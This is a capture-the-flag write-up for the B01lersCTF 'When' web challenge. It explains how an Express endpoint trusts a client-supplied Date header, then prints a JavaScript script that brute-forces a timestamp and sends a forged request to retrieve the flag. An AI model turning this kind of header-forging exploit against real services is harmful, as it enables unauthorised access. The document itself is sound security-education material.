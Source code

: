 +++
date = '2025-04-21T23:11:00+03:00'
draft = true
title = 'B01lersCTF - When (Web)'
+++

## Overview

The challenge is a small Express app in which a user can hit anywhere on the page to "gamble".

## Reviewing the code

After reading `app.ts`, we can see that there is a rate-limiter in place so directly bruteforcing via HTTP is obviously impossible.
There is a `gamble(number)` function that returns a SHA-256, it is used to issue hashes from JavaScript dates.
```js
async function gamble(number: number) {
    return crypto.subtle.digest("SHA-256", Buffer.from(number.toString()))
}
```

Here comes the interesting part, the Express app serves a POST endpoint `/gamble`, which can optionally use a `Date` HTTP header to perform the "calculation". 

Let's see the code:
```js
app.post('/gamble', (req, res) => {
    const time = req.headers.date ? new Date(req.headers.date) : new Date()
    const number = Math.floor(time.getTime() / 1000)
    if (isNaN(number)) {
        res.send({
            success: false,
            error: "Bad Date"
        }).status(400)
        return
    }
    gamble(number).then(data => {
        const bytes = new Uint8Array(data)
        if (bytes[0] == 255 && bytes[1] == 255) {
            res.send({
                success: true,
                result: "1111111111111111",
                flag: "bctf{fake_flag}"
            })
        } else {
            res.send({
                success: true,
                result: bytes[0].toString(2).padStart(8, "0") + bytes[1].toString(2).padStart(8, "0")
            })
        }
    })
});
```

The endpoint computes a SHA-256 hash from the Unix timestamp extracted from the Date header. If the first two bytes of the hash are 255, the server returns the flag.

## Writing an exploit

To pass the backend checks, we need to find a Unix timestamp `T` such that:
```js
Uint8Array(SHA256(T.toString()))[0] === 255
Uint8Array(SHA256(T.toString()))[1] === 255
```
We can brute-force locally since the same logic is used in the backend. Once we find the right value, we send a POST request with a `Date` header set to that exact time.

Here's the full exploit:
```js
import crypto from "crypto";

function gamble(number) {
    return crypto.createHash("sha256").update(number.toString()).digest();
}

function findFF() {
    for (let i = 0; i < 1e8; i++) {
        const hash = gamble(i);
        if (hash[0] === 0xff && hash[1] === 0xff) {
            console.log("Found it:", i);
            return i;
        }
    }
    throw new Error("Not found");
}

const timestamp = findFF();
const time = new Date(timestamp * 1000);

console.log("Timestamp:", timestamp);
console.log("Date:", time.toISOString());

const hash = gamble(timestamp);
console.log("First two bytes:", hash[0], hash[1]);
console.table(Array.from(hash));

const response = await fetch("https://when.atreides.b01lersc.tf/gamble", {
    method: "POST",
    headers: {
        "Date": time.toISOString()
    }
})

const data = await response.json()
console.log(data.flag)
```

In less than a second, it finds the right timestamp and fetches the flag:
```
Found it: 30398
Timestamp: 30398
Date: 1970-01-01T08:26:38.000Z
First two bytes: 255 255
┌─────────┬────────┐
│ (index) │ Values │
├─────────┼────────┤
│ 0       │ 255    │
│ 1       │ 255    │
│ 2       │ 142    │
│ 3       │ 213    │
│ 4       │ 111    │
│ 5       │ 101    │
│ 6       │ 202    │
│ 7       │ 240    │
│ 8       │ 1      │
│ 9       │ 159    │
│ 10      │ 144    │
│ 11      │ 214    │
│ 12      │ 91     │
│ 13      │ 127    │
│ 14      │ 21     │
│ 15      │ 139    │
│ 16      │ 134    │
│ 17      │ 46     │
│ 18      │ 252    │
│ 19      │ 171    │
│ 20      │ 92     │
│ 21      │ 69     │
│ 22      │ 23     │
│ 23      │ 167    │
│ 24      │ 108    │
│ 25      │ 1      │
│ 26      │ 199    │
│ 27      │ 58     │
│ 28      │ 207    │
│ 29      │ 146    │
│ 30      │ 217    │
│ 31      │ 155    │
└─────────┴────────┘
bctf{}
```

## Epilogue
Thanks for reading! Hope you had fun with this challenge.